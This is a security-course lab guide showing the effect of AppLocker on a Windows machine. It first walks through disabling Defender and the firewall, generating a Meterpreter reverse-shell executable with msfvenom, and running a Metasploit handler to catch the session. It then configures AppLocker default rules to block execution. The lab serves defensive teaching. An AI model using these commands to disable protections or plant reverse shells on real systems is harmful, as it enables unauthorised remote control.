---

This is a lab from **John Strand**'s **Information Security Core Skills** Course:

https://www.antisyphontraining.com/product/information-security-core-skills-tm/

---


# AppLocker

### Lab Objective

In this lab, we are going to see what happens when we do not have **AppLocker** running. We will set up a simple backdoor and have it connect back to the **Ubuntu** system.  Remember, the goal is not to show how we can bypass **EDR** and **Endpoint** products. It is to create a simple backdoor and have it connect back.
<hr>

## Step 1: Disabling Defender & Windows Firewall
Before we begin, we need to disable **Defender**. Start by opening an instance of **Windows Powershell**. Do this by clicking on the **Powershell** icon in the taskbar.


Once it opens, run the following command in the **Powershell** terminal:

```ps
Set-MpPreference -DisableRealtimeMonitoring $true
```



This will disable **Defender**.

>[!Note]
>
>If you get angry red errors, that is **Ok**, it means **Defender** is not running.

>[!WARNING]
>
>**Defender** has a habit of starting itself back up. <br>
>You *might* have to run this command again later in the lab.


Next, lets ensure the firewall is disabled. 

Open up a Windows Command Prompt by **Double-Clicking** the icon on the desktop:            


Once open, run the following command:

```cmd
netsh advfirewall set allprofiles state off
```


<!--
Next, set a password for the Administrator account that you can remember:

```cmd
net user Administrator password1234
```

>[!Note]
>
>That is a very bad password.  Come up with something better. But, please remember it.

-->
<hr>

## Step 2: Starting Backdoor & Backdoor Listener
Next, open an **Ubuntu Shell** by **Double-clicking** the icon on the desktop:


<br>

We need to get the **IP** of our **Linux System**. Lets do so by running the following:

```bash
ifconfig
```

We want to look for the **ens5** connection:


<br>

Write this down to remember for later!

>[!Note]
>
>**REMEMBER: YOUR IP WILL BE DIFFERENT**

Now, run the following commands to start a simple backdoor and backdoor listener: 

```bash
cd /tmp/
```

```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=[Your Linux IP Address] lport=4444 -f exe > TrustMe.exe
```
<hr>

## Step 3: Start The Metasploit Handler
Let's start the **Metasploit Handler**. 

First, lets open a second **Ubuntu Shell** by **Double-Clicking** the icon on the desktop:


Then run the following command in the new window:

```bash
msfconsole -q
```


The **Metasploit Handler** successfully ran if the terminal now starts with **"msf >"**

Next, let's run the following:

```bash
use exploit/multi/handler
```

Now run all of the following commands to set the correct parameters:

```bash
set PAYLOAD windows/meterpreter/reverse_tcp
```

```bash
set LHOST [Your Linux IP Address]
```

>[!Note]
>
>**REMEMBER - YOUR IP WILL LIKELY BE DIFFERENT!**

Go ahead and run the exploit:

```bash
exploit
```

It should look like this:

<hr>

## Step 4: Running The Malware

Now we need to download the malware and run it!

Navigate back to your **Powershell** terminal, and then use the following command to copy the file over:

```ps
cd .\Desktop\
```

```ps
scp ubuntu@linux.cloudlab.lan:/tmp/TrustMe.exe .
```
<br>
You should see this:



Great! We have the malware. 

Now open up another Windows Command Prompt by **Double-Clicking** the icon on the desktop:


Once the prompt is open, let's navigate to the **Desktop** directory:
```cmd
cd \Users\Administrator\Desktop
```

Then run the **"TrustMe.exe"** file with the following:
```cmd
TrustMe.exe
```


<br>

Head back to your **Ubuntu Shell**.

You should now have a **metasploit** session!


This isn't good. The malware successfully ran and now has read, write, and **execute** permissions!

Let’s stop this from happening!
<hr>

## Step 5: Configuring Applocker

To do this we will need to access the **"Local Security Policy"** on your **Windows** System.

Start by typing **"Local Security Policy"** in the taskbar search field.

It should bring up a menu like the one below, please select **"Local Security Policy"**.


We will need to configure **AppLocker**.  To do this, please go to Security Settings > Application Control Policies > AppLocker.


Scroll down in the right hand pane. You will see there are **"0 Rules enforced"** for all policies.  We will add in the default rules.  

We will choose the defaults because we are far less likely to break a system that way.


Please select *each* of the above Rule groups, **"Executable, Windows Installer, Script, and Packaged,"** and for each one, right click in the area that says **“There are no items to show in this view.”** and then select **“Create Default Rules”**.


This should generate a subset of rules for each group.  It should look similar to how it does below: 


>[!Tip]
>
>For simplicity, you can click the next set of rules from the left panel as seen above.

### Enforce The Rules
Next, we need to enforce these "new" rules.

To do this you will need to select **AppLocker** on the far left pane.  You will need to select **"Configure rule enforcement"**.  This will open a pop-up. Check the **"Configured"** box for each set of rules.  


When finished, click **APPLY** at the bottom of the window.

>[!NOTE]
>
>If you cannot see the **Apply** button due to window sizing- just hit **Enter** after checking the boxes! 
>
>Double-check by clicking "Configure rule enforcement" and make sure they stayed checked!
<br>

### Start The Application Identity Service
Now we need to start the **"Application Identity service"**.  

Let's type **"Services"** in the taskbar search box. Once you see this menu, select the following:


This will bring up the **Services App**. Double-click **"Application Identity"**.


Once the **"Application Identity Properties"** dialogue is open, please press the **Start** button. This will start the service.

<br>

### Forcing The Policy Change
Now, open up your command prompt, and run **"gpupdate"** to force the policy change.

```bash
gpupdate /force
```

<br>

### Attempt To Run Malware As Another User
We are now going to try to run **"TrustMe.exe"** as another user on the system. 

Run the following commands:
```cmd
cd /IntroLabs
```
```cmd
runas /user:whitelist "C:\Tools\ncat.exe"
```

The password is **adhd**


>[!WARNING]
>
>If you do not get a RUNAS error, **Defender** has started itself back up. <br>
>Run this command once more in your Powershell window, then repeat the above steps:
><pre>Set-MpPreference -DisableRealtimeMonitoring $true</pre>


As you can see, an error was generated, meaning that we were successful!
